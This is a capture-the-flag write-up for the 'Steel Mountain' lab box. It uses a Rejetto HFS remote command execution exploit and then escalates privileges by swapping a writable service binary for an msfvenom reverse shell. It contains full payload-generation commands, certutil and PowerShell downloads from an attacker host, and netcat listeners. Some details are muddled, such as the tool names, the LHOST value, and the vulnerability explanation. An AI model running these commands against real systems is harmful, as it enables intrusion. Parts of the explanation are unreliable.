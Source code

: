# Steel Mountain

## Enumeration

I started Enumeration by running Rustscan on the target. 

```
rustscan -a $machine_IP -- -A -sV -sC -vv

-sC - Script Scan
-sV - Version Scan
-T4 - Timing Template
-A  - Aggresive Scan Options
-vv - Verbosity level

.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------

Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan
PORT      STATE SERVICE REASON  VERSION
5985/tcp  open  http    syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp  open  http    syn-ack HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
47001/tcp open  http    syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

Navigating to $machine_IP:8080 provides more information about the server

![port8080](Images/port8080.png)

Expanding the `Server Information` tab, opens the landing page to the Rejetto HTTP File Server

![Rejetto](Images/rejetto.png)

Armed with the File Server name and a version number, I identified potential exploits using `Searchsploit`

```
searchsploit rejetto                
--------------------------------------------------------------- ---------------------------------
 Exploit Title                                                 |  Path
--------------------------------------------------------------- ---------------------------------
Rejetto HTTP File Server (HFS) - Remote Command Execution (Met | windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilit | windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload | multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Executio | windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Executio | windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command | windows/webapps/34852.txt
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)    | windows/webapps/49125.py
--------------------------------------------------------------- ---------------------------------
```

I was able to use the [HttpFileServer 2.3.x Remote Command Execution](https://www.exploit-db.com/exploits/39161) exploit through the `msf6 exploit(windows/http/rejetto_hfs_exec)` Metasploit module to gain initial access.

```
meterpreter > 
meterpreter > getuid
Server username: STEELMOUNTAIN\bill

meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70    fil   2019-09-27 08:42:38 -0400  user.txt

meterpreter > cat user.txt 
b04##############################
```

## Privilege Escalation

Upon gaining initial access, I was able to escalate privileges with and without Metasploit. For all purposes of this writeup, I will be walking through both vectors.

### With Metasploit

Having the luxury of a Meterpreter shell, I am able to bypass the `Python HTTP Server` and `wget` to upload scripts and exploits and utilize the `upload` functionality within Meterpreter to do so.

```
meterpreter > upload /home/kali/Desktop/Tools/PrivEsc/PowerUp/PowerUp.ps1
[*] uploading  : /home/kali/Desktop/Tools/PrivEsc/PowerUp/PowerUp.ps1 -> PowerUp.ps1
[*] Uploaded 2.10 MiB of 2.10 MiB (100.0%): /home/kali/Desktop/Tools/PrivEsc/PowerUp/PowerUp.ps1 -> PowerUp.ps1
[*] uploaded   : /home/kali/Desktop/Tools/PrivEsc/PowerUp/PowerUp.ps1 -> PowerUp.ps1
meterpreter > dir
Listing: C:\Users\bill\Desktop
==============================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100666/rw-rw-rw-  2199869  fil   2022-01-28 21:03:03 -0500  PowerUp.ps1
100666/rw-rw-rw-  282      fil   2019-09-27 07:07:07 -0400  desktop.ini
100666/rw-rw-rw-  70       fil   2019-09-27 08:42:38 -0400  user.txt
```

This allows me to upload [PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon), a PowerShell enumeration script that allows an attacker to gain situational awareness on Windows Domains. 

```
meterpreter > load powershell 
Loading extension powershell...Success.
meterpreter > powershell_shell 
PS >         
PS > . .\power2.ps1
PS > Invoke-AllChecks

ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True 
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files
```

With the `CanRestart` parameter being set to "True" and the absence of appropriate quote enclosing and instead being separated by spaces `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`. In Windows, if the service is not enclosed within quotes and is having spaces, it handles the space as a break and passes the rest of the service path as an argument. This vulnerability results in an exploit involving a restart of the service and this can be exploited to include an escalation when restarting. This is done by replacing the legitimate application with a malicious one. When the service is restarted, the malicious program is injected and root escalation is possible. 

I used Msfvenom to generate a reverse shell as an Windows executable

```
msfvenom -p windows/shell_reverse_tcp LHOST=$machine_IP LPORT=4444 -e x86/shikata_ga_nai -f exe -o advanced2.exe
```

Following this, I upload the malicious payload to the target

```
meterpreter > upload /home/kali/Desktop/advanced2.exe
```

The service is then stopped and started

```
C:\Program Files (x86)\IObit>sc stop AdvancedSystemCareService9
C:\Program Files (x86)\IObit>sc start AdvancedSystemCareService9
```

Meanwhile, I open a netcat listener to pick up the Msfvenom reverse shell and once the service is restarted, I receive a reverse shell. 

```
nc -lvnp 4444  
listening on [any] 4444 ...
connect to [10.4.34.137] from (UNKNOWN) [10.10.166.95] 49263
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af############################
```

### Without Metasploit

This is, for the most part, the same process, except this time around, I will be replacing the Meterpreter shell and the msfvenom payloads with a manual transfer of the payload. 
I use the same [Rejetto payload](https://www.exploit-db.com/exploits/39161) from the Searchsploit results to get my initial foothold. After getting the user level shell, I am able to download PowerUp, `nc.exe` & `WinPeas` using `wget` 

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
wget https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe
wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/a17f91745cafc5fa43a428d766294190c0ff70a1/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe
```

After getting the user foothold, I use `certutil.exe` and PowerShell to transfer files over to the victim. 

```
certutil.exe -urlcache -split -f http://Yourmachine_ip/winPEASx86.exe
powershell -c "Invoke-WebRequest -Uri 'http://THM_IP:80/advanced3.exe' -OutFile 'C:\Users\bill\Desktop\advanced.exe'"
```

This is swiftly followed by stopping and restarting the service

```
sc stop AdvancedSystemCareService9

sc start AdvancedSystemCareService9
sc start AdvancedSystemCareService9
[SC] StartService FAILED 1053:
```

Meanwhile, I had a netcat listener on port 9999 which gave me a root shell and allowed me to grab the `root.txt` flag to complete this CTF.

```
rlwrap nc -lvnp 9999
listening on [any] 9999 ...
connect to [THM_IP] from (UNKNOWN) [$machine_IP] 49204
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

whoami
whoami
nt authority\system

type root.txt
9af#########################
```